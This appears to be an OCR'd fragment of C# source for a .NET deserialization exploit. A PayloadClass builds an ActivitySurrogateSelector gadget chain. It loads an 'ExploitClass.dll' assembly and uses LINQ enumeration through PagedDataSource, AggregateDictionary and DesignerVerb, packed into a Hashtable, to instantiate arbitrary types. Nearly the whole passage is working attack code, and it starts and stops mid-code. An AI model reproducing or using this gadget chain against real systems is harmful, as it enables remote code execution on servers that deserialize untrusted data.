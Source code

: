 ```plain
            {
                Type t = Type.GetType("System.Workflow.ComponentModel.Serialization.ActivitySurrogateSelector+ObjectSurrogate, System.Workflow.ComponentModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35");
                return (ISerializationSurrogate)Activator.CreateInstance(t);
            }

            return base.GetSurrogate(type, context, out selector);
        }
    }

    [Serializable]
    public class PayloadClass : ISerializable
    {
        public byte[] GadgetChains()
        {
            System.Diagnostics.Trace.WriteLine("In GetObjectData");

            List<byte[]> bytesFile = new List<byte[]>();

            bytesFile.Add(File.ReadAllBytes(@"C:\Windows\Microsoft.NET\Framework\v4.0.30319\ExploitClass.dll"));




            var e1 = bytesFile.Select(Assembly.Load);
            Func<Assembly, IEnumerable<Type>> MyGetTypes = (Func<Assembly, IEnumerable<Type>>)Delegate.CreateDelegate(typeof(Func<Assembly, IEnumerable<Type>>), typeof(Assembly).GetMethod("GetTypes"));
            var e2 = e1.SelectMany(MyGetTypes);
            var e3 = e2.Select(Activator.CreateInstance);

            // PagedDataSource maps an arbitrary IEnumerable to an ICollection
            PagedDataSource pds = new PagedDataSource() { DataSource = e3 };
            // AggregateDictionary maps an arbitrary ICollection to an IDictionary 
            // Class is internal so need to use reflection.
            IDictionary dict = (IDictionary)Activator.CreateInstance(typeof(int).Assembly.GetType("System.Runtime.Remoting.Channels.AggregateDictionary"), pds);

            // DesignerVerb queries a value from an IDictionary when its ToString is called. This results in the linq enumerator being walked.
            DesignerVerb verb = new DesignerVerb("XYZ", null);
            // Need to insert IDictionary using reflection.
            typeof(MenuCommand).GetField("properties", BindingFlags.NonPublic | BindingFlags.Instance).SetValue(verb, dict);

            // Pre-load objects, this ensures they're fixed up before building the hash table.
            List<object> ls = new List<object>();
            ls.Add(e1);
            ls.Add(e2);
            ls.Add(e3);
            ls.Add(pds);
            ls.Add(verb);
            ls.Add(dict);

            Hashtable ht = new Hashtable();

            // Add two entries to table.
            ht.Add(verb, "Hello");
            ht.Add("Dummy", "Hello2");

```